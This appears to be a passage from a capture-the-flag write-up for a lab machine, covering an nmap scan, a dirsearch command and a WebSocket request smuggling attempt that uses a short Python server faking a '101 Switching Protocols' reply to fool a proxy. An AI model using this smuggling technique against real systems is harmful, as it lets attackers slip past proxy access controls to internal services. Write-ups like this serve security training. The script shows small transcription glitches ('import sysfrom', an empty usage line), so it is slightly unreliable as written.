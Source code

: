 ```
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 207.11 seconds

```
Nmap revealed the following open ports:

- 22/tcp – SSH (OpenSSH 8.2p1)
- 80/tcp – SSL HTTP (Custom: El Bandito Server)
- 631/tcp – CUPS Web Interface (2.4.7)
- 8080/tcp – HTTP (nginx, Spring Framework favicon)


**Directory Bruteforce**
```
python dirsearch.py -u http://target_ip:8080
```

<img width="403" alt="1" src="https://github.com/user-attachments/assets/4123c39a-fef7-46eb-a1b9-5860f855e2ad" />


Navigating to target_ip:8080, I accessed the Burn Token section:

![2](https://github.com/user-attachments/assets/ad6e2580-4757-4299-84d8-fd6ec8276ae6)

**WebSocket Analysis**

Intercepting the traffic reveals that the Burn Token interaction is based on WebSockets:

![3](https://github.com/user-attachments/assets/9ebb4845-99be-499b-9cfc-fb47d29d7efa)



I am investigating a potential WebSocket Request Smuggling vulnerability.


**WebSocket Smuggling Exploit**

Try downgrading the WebSocket version in the request:

<img width="802" alt="4" src="https://github.com/user-attachments/assets/7e1807af-7557-47db-b325-cd10c55d3678" />


I want the proxy to believe that a valid WebSocket connection has been established and to return:


`HTTP/1.1 101 Switching Protocols`

**Local Server for Response Manipulation**

I'm trying to intercept the request to target_ip:8080/services.html:

<img width="380" alt="5" src="https://github.com/user-attachments/assets/c2f2bd2e-8c73-4605-8e55-240c8dd540f4" />


Script to emulate a 101 Switching Protocols response:

```
import sysfrom http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 1:
    print("""
Usage: {} 
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.protocol_version = "HTTP/1.1"
       self.send_response(101)
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```